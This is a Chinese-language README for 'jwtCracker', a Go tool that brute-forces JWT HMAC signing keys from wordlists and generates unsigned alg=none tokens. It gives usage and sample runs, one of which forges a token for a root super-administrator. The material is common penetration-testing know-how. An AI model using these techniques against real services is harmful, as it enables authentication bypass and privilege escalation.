 # 项目概述

jwtCracker是一款go语言编写的jwt常见安全问题利用工具，主要功能有：

一、暴力破解：目前支持HS256、HS384、HS512加密方式的破解，另外鉴于部分人喜欢把普通密码经过编码后再作为密钥，本程序支持对密钥进行32位md5、16位md5、base64编码后再进行暴力破解

二、生成alg=none的jwt token



## 安装

### 1.安装依赖

```
go get -u github.com/golang-jwt/jwt
```

### 2.编译

```
go build jwtCracker.go
```

## 用法

```
Usage: jwtCracker COMMAND [options]

encode [generate jwt token(alg=none)]
  -pf string
        path of payload file
crack [brute force jwt key]
  -em string
        encryption method of key [none(default), md5, md5_len16, base64] (default "none")
  -kf string
        path of key file
  -tf string
        path of token file
```

token文件内容示例

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.vvmEOcKCp02AUFIthrIAO-TC4XIZr782tiIbzsYyjWY
```

key文件内容示例

```
123

123456

abc

...
```

payload文件示例

```
{
  "sub": "1234567890",
  "name": "John Doe",
  "iat": 1516239022
}
```



### 示例

1.根据字典内容暴力破解，token文件与密钥字典文件路径自行替换

```
E:\golang>jwtCracker.exe crack -tf token.txt -kf keys.txt
found key: alwaystest
Execution time:[4.637584s]
E:\golang>
```

2.对字典的值base64编码后暴力破解

```
E:\golang>jwtCracker.exe crack -tf token.txt -kf keys.txt -em base64
found key: enp6cg==
Execution time:[4.6872635s]
E:\golang>
```

3.对字典的值md5哈希后暴力破解

```
E:\golang>jwtCracker.exe crack -tf token.txt -kf keys.txt -em md5
found key: 202cb962ac59075b964b07152d234b70
Execution time:[117.999ms]
E:\golang>
```

4.对字典的值16位md5哈希后暴力破解

```
E:\golang>jwtCracker.exe crack -tf token.txt -kf keys.txt -em md5_len16
found key: ac59075b964b0715
Execution time:[126.4814ms]
E:\golang>
```

5.生成alg=none的jwt token

```
D:\golang>jwtCracker.exe encode -pf payload.txt
eyJhbGciOiAibm9uZSIsInR5cCI6ICJKV1QifQ.ew0gICJpc3MiOiAiaXNzdXNlciIsDSAgImF1ZCI6ICJhdWRpZW5jZSIsDSAgInRlbmFudF9pZCI6ICIwMDAwMDAiLA0gICJyb2xlX25hbWUiOiAi6LaF57qn566h55CG5ZGYIiwNICAidXNlcl9pZCI6ICIxMDAwIiwNICAicm9sZV9pZCI6ICIxMDAwIiwNICAidXNlcl9uYW1lIjogInJvb3QiLA0gICJkZXRhaWwiOiB7DSAgICAidHlwZSI6ICJ3ZWIiLA0gICAgInN0b3JlX2lkIjogMTUzNTE1NjIxMTc4MTk5NjUwMA0gIH0sDSAgInRva2VuX3R5cGUiOiAiYWNjZXNzX3Rva2VuIiwNICAiYWNjb3VudCI6ICJyb290IiwNICAiY2xpZW50X2lkIjogInNhYmVyIiwNICAiZXhwIjogMTY3NzUxMzY3OSwNICAibmJmIjogMTY3NzM0MDg3OQ19.

D:\golang>
```

## 执行时间

测试53w行字典，真实密钥放在最后一行，6.3秒即可跑出结果(16G内存 i5的4核cpu主机)
